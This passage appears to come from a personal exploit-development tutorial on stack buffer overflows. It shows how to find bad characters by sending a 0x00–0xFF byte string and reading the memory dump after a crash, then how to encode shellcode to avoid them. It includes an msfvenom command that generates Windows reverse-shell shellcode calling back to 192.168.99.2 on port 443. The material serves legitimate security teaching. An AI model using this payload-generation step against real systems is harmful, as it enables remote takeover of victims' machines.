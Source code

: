 ```python
```

...test the exploit against the target and investigate the memory dump of the memory location pointed to by the EIP after the crash:

![Testing for bad characters. A string of characters from 0x00-0xFF as a payload](<../../../.gitbook/assets/image (824).png>)

Note the memory dump in blue - it contains our string for testing bad characters that we sent to the vulnerable program as our payload. Since we can see all the bytes ranging from 0x00 through to 0xFF in the correct order with no bytes missing or mangled, this confirms that we did not have to deal with any bad characters with this vulnerable program.

If we, however, spotted that a character, say, `0x0A` was replaced with some random character, say, `0xE3`, this would indicate that `0x0A` is a bad character:

![0xa0 is identified as a bad character](<../../../.gitbook/assets/image (816).png>)

Once a bad character is identified:&#x20;

* In the exploit code, replace that bad character with a known good character - any character going before it, that did not get modified by the vulnerable program. In my case, that could be any byte from 0x01 to 0x09. I chose 0x09 as shown in green in the above screenshot... or you could simply remove the bad character from the string for testing bad characters;
* Fire the exploit against the target again;
* Inspect the memory dump again to see if there are any other bad characters;
* Repeat the process until all bad characters are identified.

### Encoding Shellcode

Once all the bad characters are identified, we need to ensure that our shellcode that we send to the vulnerable program does not contain them. When generating shellcode with `msfvenom`, we can give it a list of bad characters by specifying the `-b` flag and those characters will be encoded / replaced by others. In my case, I'd invoke `msfvenom` with `-b 0xa`:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.99.2 LPORT=443 -f python -b 0x0a
```

Below shows how `msfvenom` fails a couple of times to encode the `0x0a` byte when using `shikata ga nai` encoder, but succeeds eventually when using the `call4 dword xor`. Assuming `0x0a` is the only bad character, the shellcode is now bad character-free and ready to use:

![Shellcode's bad characters getting encoded](<../../../.gitbook/assets/image (815).png>)

My notes about writing a custom shellcode encoders and decoders:

{% content-ref url="../writing-custom-shellcode-encoders-and-decoders.md" %}
[writing-custom-shellcode-encoders-and-decoders.md](../writing-custom-shellcode-encoders-and-decoders.md)
{% endcontent-ref %}

Could also be interested in:

{% content-ref url="../finding-kernel32-base-and-function-addresses-in-shellcode.md" %}
[finding-kernel32-base-and-function-addresses-in-shellcode.md](../finding-kernel32-base-and-function-addresses-in-shellcode.md)
{% endcontent-ref %}

## References

{% embed url="https://en.wikipedia.org/wiki/Buffer_overflow" %}
